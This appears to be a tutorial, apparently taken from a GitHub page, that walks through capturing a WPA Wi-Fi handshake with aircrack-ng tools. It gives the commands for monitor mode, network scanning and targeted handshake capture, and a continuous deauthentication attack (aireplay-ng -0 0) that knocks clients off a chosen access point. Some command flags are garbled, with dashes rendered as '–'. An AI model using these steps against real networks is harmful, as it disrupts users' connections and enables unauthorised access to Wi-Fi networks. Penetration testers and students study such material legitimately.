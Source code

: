 ## What are the Wi-Fi network properties?

1. ESSID – The network name
1. BSSID – MAC address of the access point
1. Beacons – Number of announcements packets sent by the access point
1. CH – Channel number
1. ENC – Encryption algorithm in use
1. CIPHER – The detected cipher
1. AUTH – The authentication protocol

## Handshake Capture - Prepare your Wi-Fi adapter


Kill all the adapter processes to run without restriction.

Go to the terminal and execute this command:
```
airmon-ng check kill
```

wpa_supplicant was successfully stopped and

* Switch down wlan0 interface with:ifconfig wlan0 down
* Turn on the monitor mode with:iwconfig wlan0 mode monitor
* Switch on wlan0 interface with:ifconfig wlan0 up

## Scan all the available networks

List down all the surrounding networks with:
```
airodump-ng wlan0
```
## Capture the handshake

Run this command:
```
airodump-ng –channel {channel id} –bssid {BSSID} 
–essid {ESSID} -w {output directory of the captured file} wlan0
```

**EXAMPLE** 
```
airodump-ng –channel 12 –bssid 01:34:5C:56:2D:A5 –essid 
Tp-Link -w /home/kali/Documents wlan0
```
## Deauthenticate clients from target access point

Run this command:
```
aireplay-ng -0 0 -e {ESSID} -a bssid wlan0 –ig
````

EXAMPLE 
```
aireplay-ng -0 0 -e Tp-Link -a 01:34:5C:56:2D:A5 wlan0 –ig
````
Our deauthentication attack is successful because we see the captured handshakes. 

